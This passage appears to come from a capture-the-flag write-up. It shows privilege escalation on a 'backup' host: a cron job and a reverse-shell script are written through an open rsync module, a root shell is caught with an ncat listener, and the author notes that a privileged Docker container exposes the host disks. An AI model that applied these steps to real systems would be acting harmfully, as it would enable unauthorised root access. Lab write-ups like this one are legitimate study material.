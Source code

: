 While checking `cron.d` there is already something running.

```bash
root@www:/tmp# rsync rsync://backup:873/src/etc/cron.d/
rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2020/08/19 13:27:48 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
```

And I put those 2 files, where they belongs too. So Now the cron will run every minute and it will check for the reverse shell in the `/tmp` directory and executes it.

```bash
root@www:/tmp# rsync -a ./priv rsync://backup:873/src/etc/cron.d/
rsync -a ./priv rsync://backup:873/src/etc/cron.d/
root@www:/tmp# rsync -a ./priv.sh rsync://backup:873/src/tmp/
rsync -a ./priv.sh rsync://backup:873/src/tmp/
root@www:/tmp# rsync rsync://backup:873/src/tmp/
rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2020/08/19 13:33:01 .
-rwxr-xr-x             51 2020/08/19 13:31:24 priv.sh
```

And Again I used one of the container to get shell.

```bash
$ ./ncat -lnvp 9001
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 172.20.0.2.
Ncat: Connection from 172.20.0.2:57536.
bash: cannot set terminal process group (2045): Inappropriate ioctl for device
bash: no job control in this shell
root@backup:~# whoami;hostname
whoami;hostname
root
backup
```

There is a misconfiguration that can come with docker is running with `--privileged`. I have access to the disks.

```bash
root@backup:/dev# ls
ls
agpgart
autofs
.
.
.
sda
sda1
sda2
sda3
sda4
sda5
sg0
sg1
shm
snapshot
snd
sr0
```
